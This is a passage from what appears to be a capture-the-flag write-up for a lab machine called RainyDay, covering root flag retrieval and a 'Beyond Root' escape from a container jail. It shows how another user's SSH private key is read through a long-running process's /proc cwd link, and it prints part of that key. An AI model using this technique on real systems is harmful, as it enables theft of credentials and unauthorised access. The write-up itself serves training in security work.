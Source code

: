 
And I’ll grab `root.txt`:

    
    
    root@rainyday:~# cat /root/root.txt
    5b2508a5************************
    

## Beyond Root

### gary to Shell

The intended path is to work from gary’s container:

  * use the file read to get the flask secret
  * forging a cookie to get into jacks account
  * get into jack’s container
  * find the long running sleep process
  * use that process to escape the jail, getting access to jack’s home directory and their SSH key

jack’s processes run as uid 1000, where as when I run `id` in gary’s
container, it returns 1337. Except that the background process runs as 1000,
even as gary:

    
    
    / $ id
    uid=1000 gid=1000
    

With this, from a container stood up under gary’s account, if I get a shell, I
can see the long running `sleep`:

    
    
    / $ ps auxww
    PID   USER     TIME  COMMAND 
    ...[snip]...
    1196 1000      0:00 sleep 100000000
    ...[snip]...
    

Looking closer at the process, it’s the same sleep I abused above:

    
    
    /proc/1196 $ ls -l
    total 0
    -r--r--r--    1 1000     1000             0 Feb 15 01:48 arch_status
    ...[snip]...
    lrwxrwxrwx    1 1000     1000             0 Feb 10 20:36 cwd -> /home/jack
    ...[snip]...
    

And read the SSH key:

    
    
    /proc/1196 $ cat cwd/.ssh/id_rsa
    -----BEGIN OPENSSH PRIVATE KEY-----
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
    NhAAAAAwEAAQAAAYEA7Ce/LAvrYP84rAa7QU51Y+HxWRC5qmmVX4wwiCuQlDqz73uvRkXq
    qdDbDtTCnJUVwNJIFr4wIMrXAOvEp0PTaUY5xyk3KW4x9S1Gqu8sV1rft3Fb7rY1RxzUow
    SjS+Ew+ws4cpAdl/BvrCrw9WFwEq7QcskUCON145N06NJqPgqJ7Z15Z63NMbKWRhvIoPRO
    JDhAaulvxjKdJr7AqKAnt+pIJYDkDeAfYuPYghJN/neeRPan3ue3iExiLdk7OA/8PkEVF0
    /pLldRcUB09RUIoMPm8CR7ES/58p9MMHIHYWztcMtjz7mAfTcbwczq5YX3eNbHo9YFpo95
    ...[snip]...
    